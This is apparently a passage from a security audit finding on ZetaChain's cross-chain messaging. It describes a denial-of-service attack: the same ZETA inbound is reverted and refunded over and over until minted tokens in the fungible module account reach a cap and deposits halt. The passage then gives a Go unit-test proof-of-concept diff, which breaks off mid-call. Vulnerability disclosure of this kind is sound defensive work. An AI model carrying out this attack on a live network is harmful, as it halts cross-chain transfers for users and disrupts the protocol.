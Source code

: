 1. On Ethereum, initiate a ZETA token inbound via `ZetaConnectorEth.send()` to ZetaChain with 10M ZETA tokens, worth $2.5M USD.
2. CCTX inbound errors on ZetaChain when executing the `onReceive()` call on the target contract. The 10M ZETA tokens have been minted to the fungible module account.
3. A revert outbound is created to refund the 10M ZETA tokens to the sender on Ethereum. 4. Attacker receives the 10M ZETA tokens back on Ethereum.

Repeat 185 times until the cap is reached.

The gas fees are negligible. Also, the capital is returned to the attacker after each iteration, reducing the risk of failure.

## Impact

ZETA deposits and message passing via ZetaChain are halted. A network upgrade is required to burn the fungible module account ZETA tokens.

## PoC

Add the following test case to [`node/x/fungible/keeper/evm_test.go`](https://github.com/sherlock-audit/2025-04-zetachain-cross-chain/blob/main/node/x/fungible/keeper/evm_test.go) and run with

```bash
go test -timeout 30s -run ^TestKeeper_CallOnReceiveZevmConnector$/^AUDIT_should_error_in_contract_call_reverts_but_ZETA_is_minted_to_fungible_module_account$ github.com/zeta-chain/node/x/fungible/keeper
```

```diff
diff --git a/node/x/fungible/keeper/evm_test.go b/node/x/fungible/keeper/evm_test.go
--- node/x/fungible/keeper/evm_test.go
+++ node/x/fungible/keeper/evm_test.go
@@ -19,8 +19,9 @@
 	"github.com/zeta-chain/protocol-contracts/pkg/systemcontract.sol"
 	"github.com/zeta-chain/protocol-contracts/pkg/wzeta.sol"
 	"github.com/zeta-chain/protocol-contracts/pkg/zrc20.sol"

+	zetaconfig "github.com/zeta-chain/node/cmd/zetacored/config"
 	"github.com/zeta-chain/node/e2e/contracts/dapp"
 	"github.com/zeta-chain/node/e2e/contracts/dappreverter"
 	"github.com/zeta-chain/node/e2e/contracts/example"
 	"github.com/zeta-chain/node/e2e/contracts/reverter"
@@ -1562,8 +1563,34 @@
 			dAppContract,
 			big.NewInt(45), []byte("message"), [32]byte{})
 		require.ErrorContains(t, err, "execution reverted")
 	})
+
+	t.Run("AUDIT should error in contract call reverts but ZETA is minted to fungible module account", func(t *testing.T) {
+		// add import "zetaconfig "github.com/zeta-chain/node/cmd/zetacored/config""
+		k, ctx, sdkk, _ := keepertest.FungibleKeeper(t)
+		_ = k.GetAuthKeeper().GetModuleAccount(ctx, types.ModuleName)
+
+		deploySystemContracts(t, ctx, k, sdkk.EvmKeeper)
+		dAppContract, err := k.DeployContract(ctx, dappreverter.DappReverterMetaData)
+		require.NoError(t, err)
+		assertContractDeployment(t, sdkk.EvmKeeper, ctx, dAppContract)
+
+		// check fungible module address cosmos bank coin ZETA balance before the call
+		beforeBalance := sdkk.BankKeeper.GetBalance(ctx, types.ModuleAddress, zetaconfig.BaseDenom)
+		require.Equal(t, "0", beforeBalance.Amount.String())
+
+		_, err = k.CallOnReceiveZevmConnector(ctx,
+			sample.EthAddress().Bytes(),
+			big.NewInt(1),
```